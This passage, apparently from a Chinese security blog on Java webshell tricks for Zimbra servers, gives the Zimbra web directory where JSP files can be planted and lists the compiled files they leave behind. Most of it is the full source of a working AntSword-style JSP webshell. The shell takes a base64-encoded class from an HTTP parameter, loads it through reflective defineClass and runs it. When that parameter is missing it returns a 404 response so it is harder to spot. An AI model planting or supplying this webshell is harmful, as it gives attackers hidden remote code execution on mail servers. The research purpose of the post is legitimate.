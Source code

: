 保存在Zimbra的web目录：`/opt/zimbra/jetty_base/webapps/zimbra/`

通过Web访问后在目录`/opt/zimbra/jetty_base/work/zimbra/jsp/org/apache/jsp/`生成以下文件：

- _test1_jsp.java
- _test1_jsp.class
- _test1_jsp$U.class

#### (2)test2.jsp

来自[《Java利用技巧——通过反射实现webshell编译文件的自删除》](https://3gstudent.github.io/Java%E5%88%A9%E7%94%A8%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87%E5%8F%8D%E5%B0%84%E5%AE%9E%E7%8E%B0webshell%E7%BC%96%E8%AF%91%E6%96%87%E4%BB%B6%E7%9A%84%E8%87%AA%E5%88%A0%E9%99%A4)中通过反射实现[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)的方法，代码如下：

```
<%@ page import="java.lang.reflect.Method" %>

<%!
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");

    if (cls != null) {
        Method d= ClassLoader.class.getDeclaredMethod("defineClass",byte[].class, int.class, int.class);
        d.setAccessible(true);
        ClassLoader sysloader = getClass().getClassLoader();
        ClassLoader loader = new ClassLoader(sysloader) {};
        Class result = (Class) d.invoke(loader, base64Decode(cls),0,base64Decode(cls).length); 
        result.newInstance().equals(pageContext);
  
    }
    else{
        response.sendError(404);
    }
%>
```

通过Web访问后生成以下文件：

- _test2_jsp.java
- _test2_jsp.class
- _test2_jsp$1.class
